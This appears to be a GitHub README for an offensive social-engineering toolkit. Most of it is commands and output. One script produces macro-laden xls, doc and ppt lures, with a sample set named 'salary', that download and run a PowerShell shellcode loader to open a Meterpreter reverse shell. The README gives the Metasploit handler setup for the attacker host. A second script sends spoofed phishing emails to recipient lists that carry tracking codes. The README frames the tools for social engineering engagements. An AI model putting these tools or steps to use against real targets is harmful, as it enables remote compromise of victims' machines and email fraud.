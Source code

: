 # Social-Engineering-Toys
Social Engineering Toys  
**injectShell.py**  
  
The script generates office documents (xls, doc and ppt) that includes VBA code that download and run the Invoke-Shellcode.ps1 (creates a meterpreter reverse shell back to server) when the victim enables Macro in the document.  
  
You will need to run the windows/meterpreter/reverse_https payload on your the attacker host.  
```
$ ./msfconsole
msf> use exploit/multi/handler
msf exploit(handler) > set PAYLOAD windows/meterpreter/reverse_https
msf exploit(handler) > set LHOST consulting.example.org
msf exploit(handler) > set LPORT 4443
msf exploit(handler) > set SessionCommunicationTimeout 0
msf exploit(handler) > set ExitOnSession false
msf exploit(handler) > exploit -j
[*] Exploit running as background job.
```
  
Below is the help screen of the script.  
```
$  python injectShell.py -h
usage: injectShell.py [-h] [-t T] [-o O] [-ip IP] [-port PORT]

optional arguments:
  -h, --help  show this help message and exit
  -t T        [xls|doc|ppt|all]
  -o O        [output filename (without extension)]
  -ip IP      [meterpreter listener ip address]
  -port PORT  [meterpreter listener port]

```

Below is the script in action.  

```
$  python injectShell.py -t all -o salary -ip 192.168.1.6 -port 1111 
- Generated: salary.xls
- Generated: salary.doc
- Generated: salary.ppt
```
    
     
   
    
**sendEmail.py**  
This script is useful in sending spoofed emails to some SMTP servers. This can be useful in social engineering engagements.    
  
Below is the help screen of the script.    
```
$ python sendEmail.py -h
usage: sendEmail.py [-h] [-f F] [-n N] [-e E] [-t T] [-iL IL] [-v]

optional arguments:
  -h, --help  show this help message and exit
  -f F        [html file containing the email body]
  -n N        [recipient name]
  -e E        [recipient email]
  -t T        [delay between 1 to x seconds (random)]
  -iL IL      [file containing recipient name and email addresses per line
              separated by comma]
  -v          [verbose]
```
  
Below is the script in action.  
```
$ python sendEmail.py -iL namelist.txt -f sampleHtml.txt -t 10
Sending email to: test01@example.com  
```
  
Below are two examples of namelist.txt
**Below is sample 1**
The fields are separated by "," 
The first field is: recipient's name  
The second field is: recipient's email address  


```
Keith,keith123@hotmail.com
```

**Below is sample 2**
The first field is: recipient's name  
The second field is: recipient's email address  
The last field is: tracking code  

```
Keith,keith123@hotmail.com,UAG21E
```
